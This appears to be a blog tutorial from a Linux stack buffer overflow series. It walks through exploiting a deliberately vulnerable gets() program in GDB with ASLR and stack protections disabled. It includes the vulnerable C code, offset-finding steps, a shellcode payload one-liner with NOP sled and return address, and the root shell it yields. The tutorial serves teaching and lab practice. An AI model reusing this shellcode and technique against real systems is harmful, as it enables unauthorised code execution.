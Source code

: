 ```yaml
---
layout: post
title:  "Stack Buffer Overflows: Linux 2 - Jumping to Shellcode"
date:   2018-01-17 01:00:00 +0100
categories: [bof]
description: v0.1
image:
  feature: shellcode2.jpg
  credit:
  creditlink:
---
```

In Chapter 2 of my Linux Stack Buffer Overflow series I'll be walking you through crafting an exploit from scratch in GDB with no external hints of the environment.  If you're new to this type of exploit I'd recommend going through [Chapter 1](). 

One issue with crafting an exploit in GDB and then running it outside, is that the exploit simply no longer works.  This wasn't an issue in  as we were printing out the location of our exploit in memory, but what if we don't have that luxury? To show you how to overcome this, we'll be using the following code.

```c
#include <stdio.h>

int main(){
  bof();
  return 0;
}

int bof()
{
  char buffer[128];
  gets(buffer);
  return 0;
}

```  

## Step 1: Equalise the environment

There can be a number of reasons for this, but by far the most common is that the stack offsets outside GDB are different within GDB.  This [stack overflow](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966) answer does a good job explaining the exact reason, environment variables, and also provides a handy script for equalising these inside and outside GDB.  

The script also forces the step of calling a full rather than relative pathname, i.e `/root/test` vs `./test`.  Unsurprisingly this also has an effect on stack offsets as GDB will use the former.  Therefore, always call binaries with their full pathname.

I've demonstrated the use of this script below, which shows that the offset is equal in both.  The added environment variables also need to be removed when starting GDB, and usually this is enough to ensure equal stack offsets.  

```bash
root@kali:~# ./invoke test
Wanna Smash!?: 0xffffddb0
```
```gdb
root@kali:~# ./invoke -d test
...............SNIP........................
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Starting program: /root/test 
Wanna Smash!?: 0xffffddb0
```

We can see that the stack offsets are equal if we take these steps.  It's worth doing even if, like me, you're very lazy as it will save you a lot of stress further down the line.

### Step 2: Overflow the Buffer

So compile the binary, removing all protections.

```bash
root@kali:~/bof# echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
root@kali:~/bof# gcc bof.c -o bof  -fno-stack-protector -z execstack -m32
```

The first part of the exploitation process is much the same as in Chapter 1.  We first find the point at which `eip` is overrun using a cyclical sequence.

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/bof/bof 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

```
EIP: 0x41416d41 ('AmAA')
```

We find `eip` at `0x41416d41`, which is at position 140.

### Step 3: Examine the Memory

We now have to find where to jump to.  For this we'll need to take the steps as above and unset any environment variables.
```gdb
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Now we'll write in a sequence of easily identifiable characters that we can locate when searching memory.  A series of 200 'A' characters should suffice.

```gdb
gdb-peda$ r
Starting program: /root/bof/bof 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Run the find command to search for a series of 'A' characters:  
```
gdb-peda$ find 0x41414141
```
Then find the result where 'A' repeats 200 times on the stack:  
```gdb
[stack] : 0xffffddb0 ('A' <repeats 200 times>)
```

An alternative method is to search around `esp`, the stack pointer and look for this sequence:  
```gdb
gdb-peda$ x/80x $esp-200
0xffffdd78:	0x01	0x00	0x00	0x00	0xb0	0xdd	0xff	0xff
0xffffdd80:	0x38	0xde	0xff	0xff	0x20	0xe3	0xfe	0xf7
0xffffdd88:	0xb0	0xdd	0xff	0xff	0x00	0x70	0x55	0x56
0xffffdd90:	0x01	0x00	0x00	0x00	0x00	0x90	0xf9	0xf7
0xffffdd98:	0x38	0xde	0xff	0xff	0x70	0x55	0x55	0x56
0xffffdda0:	0xb0	0xdd	0xff	0xff	0x01	0x00	0x00	0x00
0xffffdda8:	0xa0	0x34	0xfd	0xf7	0x5a	0x55	0x55	0x56
0xffffddb0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddb8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddc0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
Here we confirm that our sequence begins at `0xffffddb0`.  Assuming this will be the same stack offset, we'll jump to just after this location.

### Step 4: Write your Shellcode

For this we'll just grab [this shellcode](https://www.exploit-db.com/exploits/42177/).
```bash
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffddb0)' > /tmp/var
```

We now test it in GDB:
```gdb
gdb-peda$ r < /tmp/var
Starting program: /root/bof/bof < /tmp/var
process 6648 is executing new program: /bin/dash
[Inferior 1 (process 6648) exited normally]
Warning: not running or target is remote
```
So we know our shellcode is working correctly.  Now we just run it outside the program
```bash
root@kali:~/bof# (cat /tmp/var; cat)|./invoke bof
id
uid=0(root) gid=0(root) groups=0(root)
ls
bof  bof.c  invoke  peda-session-bof.txt  peda-session-dash.txt
```

Step 5:  Without Invoke
--------------------------------

Of course sometimes the script isn't available to us, or isn't appropriate to the environment.  Say you're exploiting a remote service, and therefore the binary is already loaded and memory locations set.

In this case repeat exactly as above, removing the environment variables again but simply don't use the `invoke` script.  We'll get a different stack address:
```
[stack] : 0xffffd280 ('A' <repeats 200 times>)
```
So we adjust our payload accordingly:
```
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffd280)' > /tmp/var
root@kali:~/bof# (cat /tmp/var; cat)| /root/bof/bof
id
uid=0(root) gid=0(root) groups=0(root)
```
If this doesn't work, then play around with the stack location until the exploit succeeds.

Epilogue
-----------

Hopefully now you have a good idea how you'd build an exploit from scratch using GDB.  Now we've successfully exploited a binary without it intentionally leaking information, but we're still disabling all stack protections.  Next time I'll show you how to bypass the simplest of these, data execution prevention (DEP) and use a technique known as ret2libc.

References
----------
[PEDA](https://github.com/longld/peda)
[Stack Overflow Answer on Failing GDB Exploit](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)
[https://www.exploit-db.com/exploits/42177/](https://www.exploit-db.com/exploits/42177/)


Changelog
---------
